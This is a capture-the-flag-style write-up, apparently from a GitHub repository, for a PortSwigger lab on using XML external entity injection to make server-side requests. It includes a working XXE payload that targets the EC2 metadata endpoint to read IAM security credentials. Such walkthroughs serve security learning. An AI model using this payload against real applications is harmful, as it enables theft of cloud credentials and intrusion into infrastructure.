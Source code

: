 # Exploiting XXE to perform SSRF attacks

**Lab Url**: [https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)

![Lab Description](img/lab-description.png)

## Analysis

The initial step is to understand how the vulnerable application works and gather information about the target system. The application showcases an image catalog with an image, a title, a price, a star rating, and a "View Details" button that redirects to the product page. The product page has a check stock functionality that transfers data in XML format.

![Check Stock](img/check-stock.png)

## Conclusion

**Instance metadata in an EC2 instance is data about the instance itself that is made available within the running instance.  It's accessible directly from within the instance at a non-routable IP address (`169.254.169.254`).**

Let's introduce a DOCTYPE element that defines an external entity containing the path to the `meta-data` url to check if the application is vulnerable to XXE injection attack.

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
```

![Payload](img/payload.png)

![Lab Solved](img/lab-solved.png)
